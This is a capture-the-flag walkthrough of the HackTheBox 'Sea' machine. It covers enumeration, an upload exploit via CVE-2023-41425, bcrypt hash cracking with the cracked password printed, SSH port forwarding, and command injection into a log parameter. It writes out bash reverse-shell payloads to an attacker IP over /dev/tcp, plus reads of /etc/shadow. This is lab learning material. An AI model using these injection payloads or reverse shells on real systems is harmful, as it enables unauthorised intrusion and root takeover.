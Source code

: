 # Sea

<details>
<summary><strong>Summary</strong></summary>
The first hackthebox machine I've done. This writeup isn't as good because of the 
Nmap scan the machine and find a website. Use gobuster/feroxbuster to find a large amount of pages left over on the website. Scan through the pages to find an upload page where there is a script uploading vulnerability.
Check the files in the apache directory and the rest of the program files for information, also checking the network interfaces. Find a hash for a user. Set up a reverse proxy and route traffic through the first machine with a shell to a remote website on the network. 
Login to the remote machine on the browser using the proxy. Catch the request from the remote machine to the system logs using Burp. Send it to the repeater and use it to get a reverse shell on the machine as root.

<summary><strong>What I Learned</strong></summary>
<body>

1. This is my first HTB box, so I learned a lot about general enumeration and process as a whole while working on it
2. Learned about Feroxbuster and which directories are bust-able

</body>
</details>

#### Not quite a Bordereau

I had the commands and information saved before I started thinking about posting these on github. In the future there is more detail, but when I did this, it was more of a brain dump and less of a conscious effort to provide a detailed writeup.

## Steps

Scan the machine for open ports
`nmap --open -p- -oA nmap/open <IP>`

Use gobuster to find files on the webserver  
`gobuster dir -u http://10.129.194.230:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Find a registration page on the machine

Find the apache server on `http://10.129.194.230:50000/etc/apache2

Get a reverse shell file onto the target machine using [CVE-2023-41425](https://nvd.nist.gov/vuln/detail/CVE-2023-41425)

### Start a netcat listener and upload the corrupted CVE file using the exploit file

Find where directory for the site configuration is in sites-enabled  
 • `DocumentRoot category in Directory`  
 • `/etc/passwd`

Found BCRYPT hash in : `/var/www/sea/data`. Decrypt it using hashcat.  
`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q : mychemicalromance`

Grep for every line that contains users  
`cat /etc/passwd | grep sh$`

Find users, then switch to them (password required)  
`su - <Username>`

Check the filesystem table  
`Hidepid=2` -> cannot see processes run by other users  
 `cat /etc/fstab`

What processes are running?  
Ps -> what processes are running | e -> every process (even ones not run by user) | f -> full format listing | forest -> displays in tree-like hierarchy  
`ps -ef --forest`

What ports are listening?

- Ss -> socket statistics | l -> only listening sockets. | n -> numerical addresses | t -> TCP connections | p -> show process id
- `ss -lntp`
- To check the ports that are running
  - `cd /etc/`
  - `grep -R <PORT_NUM> . 2>/dev/null`

Get the service command and check it  
`cat ./systemd/system/multi-user.target.wants/monitoring.service`
![alt text](images/image.png)

Cannot access root/monitoring file, but can set up port forward and access it
![alt text](images/image-1.png)

Setup an ssh listener locally on port 8081. Forward it from 8081 to 127.0.0.1 locally and direct it to 8080 on the other end (target machine)  
 • `ssh -L 8081:127.0.0.1:8080 amay@<RHOST>`

Then you can access 127.0.0.1:8082 on browser with login

Click the analyze button to get the logs. Send them to the Burp Repeater

In the kali cli, curl the server to look for suspicious traffic  
 • `curl <IP>/random_text`

Check to see if you can inject php code into log file  
 • Set up a proxy and use it to try to run a command  
 ○ KALI -> `curl 10.129.62.179/contretemps -x http://localhost:8080`  
 • Intercept it with Burp, change to a more suspicious command agent

![alt text](images/image-2.png)
![alt text](images/image-3.png)
![alt text](images/image-5.png)

Try to get other files  
 • `/root/root.txt`  
 • `/etc/passwd`  
 • `/etc/shadow`

Try to run a command

- `/root/root.txt;id;%23 %23 is '#'`
- It works, so get a reverse shell
  - `/root/root.txt;bash -c 'bash -i >&/dev/tcp/<KALI_IP>/<PORT> 0>&1*;%23`
  - URL encode with Ctrl + U

Use nohup -> shells persist after the terminal closes  
 • `log_file=root/root.txt;bash+-c+'nohup+bash+-i+>%26/dev/tcp/10.10.14.9/9001+0>%261+%26';#&analyze_log=`  
Get root access

![alt text](images/image-4.png)
